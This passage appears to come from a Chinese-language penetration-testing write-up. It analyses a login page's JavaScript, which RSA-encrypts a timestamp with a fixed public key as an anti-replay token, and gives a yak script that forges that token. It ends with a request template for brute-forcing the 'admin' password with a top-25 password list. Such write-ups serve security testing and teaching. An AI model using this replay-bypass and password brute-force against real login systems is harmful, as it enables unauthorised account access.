        const encrypted = jsEncrypt.encrypt(data.toString());
        if (!encrypted) {
            throw new Error("RSA encryption failed.");
        }
        return encrypted;
    }

    // Encrypt the timestamp
    let encryptedTimestamp;
    try {
        encryptedTimestamp = rsaEncrypt(timestamp, publicKey);
    } catch (error) {
        console.error("Encryption error:", error);
        return null;
    }

    const dataToSend = {
        username: username,
        password: password,
        random: encryptedTimestamp // Replace timestamp with encrypted version
    };

    return dataToSend;
}
```

可以发现在sendLoginRequest中调用generateRequestData生成data，在generateRequestData中使用固定公钥rsa加密当前时间戳，作为random值，随用户名密码一同发向服务器验证，可以防止重放攻击

yak脚本，对当前时间RSA加密

> 比较坑，js里没有将Date.now()除以1000转换为时间戳，故时间戳要\*1000

```
timeenc = func(p) {

    publicKey = `-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDRvA7giwinEkaTYllDYCkzujvi
NH+up0XAKXQot8RixKGpB7nr8AdidEvuo+wVCxZwDK3hlcRGrrqt0Gxqwc11btlM
DSj92Mr3xSaJcshZU8kfj325L8DRh9jpruphHBfh955ihvbednGAvOHOrz3Qy3Cb
ocDbsNeCwNpRxwjIdQIDAQAB
-----END PUBLIC KEY-----`

    publicKey = []byte(publicKey)
    result = codec.RSAEncryptWithPKCS1v15(publicKey , timestamp()*1000)~
    base64Result = codec.EncodeBase64(result)

    return base64Result
}
```

timeenc生成random值发包

```
{"username":"admin","password":"{{payload(pass_top25)}}","random":"{{yak(timeenc)}}"}
```


